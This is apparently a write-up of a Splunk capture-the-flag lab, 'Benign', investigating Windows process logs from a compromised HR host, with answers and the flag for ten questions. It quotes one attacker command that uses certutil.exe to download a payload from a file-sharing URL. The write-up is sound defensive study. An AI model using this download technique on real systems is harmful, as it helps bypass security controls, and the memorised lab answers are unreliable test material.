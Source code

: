 <h1>Benign Challenge Lab (Splunk)</h1>

<h2>Description</h2>

One of the client’s IDS indicated a potentially suspicious process execution indicating one of the hosts from the HR department was compromised. Some tools related to network information gathering / scheduled tasks were executed which confirmed the suspicion. Due to limited resources, we could only pull the process execution logs with Event ID: 4688 and ingested them into Splunk with the index win_eventlogs for further investigation.

<h3>About the Network Information</h3>

The network is divided into three logical segments. It will help in the investigation.

<b>IT Department</b>

James<br>
Moin<br>
Katrina<br>

<b>HR department</b>

Haroon<br>
Chris<br>
Diana<br>

<b>Marketing department</b>

Bell<br>
Amelia<br>
Deepak<br>

<h2>Walkthrough</h2>

<b>Question 1: How many logs are ingested from the month of March, 2022?</b>
<br><br>
To find this information, I simply changed the time period of the logs to only show dates from March 2022. In this case, even when you choose "all time", this index shows the same results inlcuded all 13959 events.
<br><br>
<b>Answer:</b> 13,959

<b>Question 2: Imposter Alert: There seems to be an imposter account observed in the logs, what is the name of that user?</b>
<br><br>
For this answer, I used:
<br>
| table UserName <br>
| dedup UserName
<br><br>
This allowed me to see a list of the usernames only one time, which is where I found the imposter "Amel1a" where the imposter changed the "i" in Amelia in to a 1.
<br><br>
<b>Answer:</b> Amel1a

<b>Question 3: Which user from the HR department was observed to be running scheduled tasks?</b>
<br><br>
By adding "schtasks" to the search, then clicking the CommandLine field, there are only 5 commands and the only username shown is chris.fort
<br><br>
<b>Answer:</b> Chris.fort

<b>Question 4: Which user from the HR department executed a system process (LOLBIN) to download a payload from a file-sharing host?</b>
<br><br>I used google to search binaries used to download payloads (loblins) and found "certutil.exe". I added that to the search in Splunk and 1 event appeared connected to username Haroon.
<br><br>
<b>Answer:</b> Haroon

<b>Question 5: To bypass the security controls, which system process (lolbin) was used to download a payload from the internet?</b>
<br><br>The answer stemmed from the results found in question #4 which is the certutil.exe utility being used to download the file from the URL "https://controlc.com/e4d11035". Here's the full command line prompt: certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe
<br><br>
<b>Answer:</b> certutil.exe

<b>Question 6: What was the date that this binary was executed by the infected host? format (YYYY-MM-DD)</b>
<br><br>This answer was quickly found by looking at the same event I already have pulled up and looking at the Event Time.
<br><br>
<b>Answer:</b> 2022-03-04

<b>Question 7: Which third-party site was accessed to download the malicious payload?</b>
<br><br>This answer was quickly found as well by looking at the command line prompt
<br><br>
<b>Answer:</b> controlc.com

<b>Question 8: What is the name of the file that was saved on the host machine from the C2 server during the post-exploitation phase?</b>
<br><br>This answer was quickly found as well by looking at the command line prompt
<br><br>
<b>Answer:</b> benign.exe

<b>Question 9: The suspicious file downloaded from the C2 server contained malicious content with the pattern THM{..........}; what is that pattern?</b>
<br><br>I visited the site within the command line to find this answer (controlc.com/e4d11035)
<br><br>
<b>Answer:</b> THM{KJ&*H^B0}

<b>Question 10: What is the URL that the infected host connected to?</b>
<br><br>This answer was also taken from the last question where the entire URL was the final answer
<br><br>
<b>Answer:</b> controlc.com/e4d11035

















